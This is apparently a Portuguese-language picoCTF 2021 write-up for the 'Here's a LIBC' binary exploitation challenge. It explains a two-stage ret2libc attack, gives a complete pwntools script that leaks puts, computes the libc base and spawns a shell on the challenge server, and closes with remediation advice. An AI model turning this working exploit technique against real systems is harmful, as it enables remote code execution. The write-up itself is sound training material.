

# Here's a LIBC | picoCTF 2021

`pwn` `ret2libc` `rop` `buffer-overflow` `pwntools` `glibc-2.27`

| | |
|---|---|
| **Plataforma / evento** | picoCTF 2021 |
| **Plataforma (hoje)** | CyLab Academy (`cylabacademy.net`) |
| **Categoria** | Binary Exploitation |
| **Dificuldade / pontos** | Hard |
| **Autor do desafio** | madStacks |
| **Resolvido / revalidado em** | 2026-11-02 |

## TL;DR

`vuln` é um "echo server" x86-64 sem PIE e com um estouro de buffer na leitura da entrada. Faço um ROP em duas fases: na primeira, vazo o endereço real de `puts` na libc (com `puts(puts@got)`) e volto para `main`; com a libc 2.27 fornecida, calculo a base e resolvo `system` e `"/bin/sh"`; na segunda, chamo `system("/bin/sh")` e leio a flag.

> [!IMPORTANT]
> **Ideia-chave:** sem PIE, os endereços do próprio binário (PLT/GOT e gadgets) são fixos, então dá para vazar um endereço de libc, derrubar o ASLR da libc com a base e cair em `system` num segundo payload.

## Enunciado

> I am once again asking for you to pwn this binary

**Dica oficial:**

> PWNTools has a lot of useful features for getting offsets.

**Arquivos:** `vuln` (ELF 64-bit, sem PIE), `libc.so.6` (a libc do servidor). **Instância:** serviço por socket.

## Dicas progressivas

<details><summary>Dica 1</summary>Estouro clássico de stack. Ache o offset até o RIP (cyclic do pwntools).</details>
<details><summary>Dica 2</summary>Sem PIE: vaze <code>puts@libc</code> com <code>puts(puts@got)</code> e volte para <code>main</code> para um segundo payload.</details>
<details><summary>Dica 3</summary>Use a <code>libc.so.6</code> fornecida para achar os offsets de <code>system</code> e <code>/bin/sh</code> a partir do leak.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, com `pwntools` (`pip install pwntools`).
- **Arquivos:** `vuln` e `libc.so.6` na raiz da pasta do desafio.

Na minha instância o serviço estava em `chatelaine.cylabacademy.net:22586`. O binário e a `libc.so.6` são os mesmos de sempre (confirmei por `sha256`); os gadgets e o offset abaixo valem para eles. A base da libc muda a cada conexão (ASLR) e o sufixo da flag muda por instância.

## Resolução

### 1. Reconhecimento do binário

```text
vuln: ELF 64-bit LSB executable, x86-64, dynamically linked, no PIE
libc.so.6: GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2)
```

Sem PIE significa endereços fixos no binário. O programa é um "echo server": lê a entrada, passa por uma função `convert_case` (que embaralha maiúsculas/minúsculas — o banner sai `WeLcOmE To mY EcHo sErVeR!`) e devolve. A leitura estoura o buffer da stack.

Pelo frame (`buffer` em `rbp-0x80` = 128 bytes, mais 8 do `rbp` salvo), o RIP fica no offset **136**. Os gadgets saem do próprio binário:

```text
pop_rdi = 0x400913
ret     = 0x40052e   # usado para alinhar a stack (movaps) antes de system
```

> [!TIP]
> **Conceito: ret2libc com leak.** O ASLR aleatoriza a base da libc, mas não os offsets internos. Se eu vazo o endereço real de uma função conhecida (`puts`), subtraio o offset dela na `libc.so.6` fornecida e obtenho a base da libc daquela sessão. A partir daí, qualquer símbolo (`system`) e string (`/bin/sh`) tem endereço calculável. Referência: [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc).

### 2. Fase 1 — vazar `puts` e voltar para `main`

Primeiro payload: lixo até o RIP, depois `pop rdi; ret` com `puts@got` em RDI, chama `puts@plt` (imprime o endereço real de `puts`) e retorna para `main`, para poder enviar um segundo payload.

> **Detalhe que precisou de cuidado:** o programa imprime o buffer com `puts(buffer)` antes do leak, então a primeira linha recebida é só o eco; o endereço vazado vem na linha seguinte. Os bytes dos gadgets (`0x09`, `0x13`, `0x40`, ...) não caem na faixa de letras ASCII, então `convert_case` não os altera.

### 3. Fase 2 — `system("/bin/sh")`

Com a base da libc, monto o segundo payload: um `ret` para alinhar a stack (a glibc 2.27 usa `movaps`, que exige stack alinhada em 16), depois `pop rdi; ret` com o endereço de `"/bin/sh"` e por fim `system`.

#### `scripts/script1.py`

O exploit remoto completo está em [`scripts/script1.py`](scripts/script1.py). O núcleo:

```python
from pwn import *

context.binary = elf = ELF("./vuln")
libc = ELF("./libc.so.6")

offset   = 136
pop_rdi  = 0x400913
ret      = 0x40052e
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main     = elf.symbols["main"]

p = remote("chatelaine.cylabacademy.net", 22586)

# Fase 1: vazar puts@libc e voltar para main
payload1  = b"A"*offset
payload1 += p64(pop_rdi) + p64(puts_got)   # RDI = puts@got
payload1 += p64(puts_plt)                  # puts(puts@got)
payload1 += p64(main)                      # volta para main
p.recvuntil(b"sErVeR!\n")
p.sendline(payload1)
p.recvline()                               # eco do buffer (ignorar)
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.symbols["puts"] # base da libc

# Fase 2: system("/bin/sh")
binsh = next(libc.search(b"/bin/sh"))
payload2  = b"A"*offset
payload2 += p64(ret)                       # alinha a stack (movaps)
payload2 += p64(pop_rdi) + p64(binsh)
payload2 += p64(libc.symbols["system"])
p.recvuntil(b"sErVeR!\n")
p.sendline(payload2)
p.sendline(b"cat flag.txt")
p.interactive()
```

***INSERIR no terminal — Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
pop_rdi=0x400913 ret=0x40052e
puts_leak=0x70ebb1a58a30 libc_base=0x70ebb19d8000
$ cat flag.txt
academy{1_l0v3_sm4sh_st4cking_a768fad93c2XXXXX}
```

## Cadeia de ataque



## Por que funciona

O estouro dá controle do RIP. Sem PIE, os gadgets e a PLT/GOT têm endereços fixos, o que permite construir o ROP sem nenhum leak prévio. O `puts(puts@got)` transforma um endereço fixo (GOT) no endereço real de `puts` na libc, quebrando o ASLR da libc — que só randomiza a base, não os offsets. Com a `libc.so.6` certa, a base e todos os símbolos saem por subtração. O segundo `main` existe só para reusar a mesma primitiva de leitura num estado já conhecido.

## Remediação

- Compilar com PIE e full RELRO, o que tira os endereços fixos e dificulta o ROP e o leak via GOT.
- Usar canário de stack e limitar o tamanho da leitura (o bug é a leitura sem limite no buffer).
- Fortify (`_FORTIFY_SOURCE`) e stack protector para funções com buffers.

## Lições e padrões

- **Sinais para reconhecer:** binário "no PIE" + libc fornecida = ret2libc com leak é quase sempre o caminho.
- **Da próxima vez eu tentaria primeiro:** `cyclic`/`cyclic_find` do pwntools para o offset e `ROPgadget` para `pop rdi`/`ret`, sem calcular à mão.
- **Onde perdi tempo:** lembrar do `ret` extra para alinhar a stack antes de `system` na glibc 2.27 (sem ele, `movaps` crasheia).

## Referências

- [ir0nstone — ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc)
- [pwntools — ELF/ROP](https://docs.pwntools.com/en/stable/elf.html)

## Flag

```text
academy{1_l0v3_sm4sh_st4cking_a768fad93c2XXXXX}
```
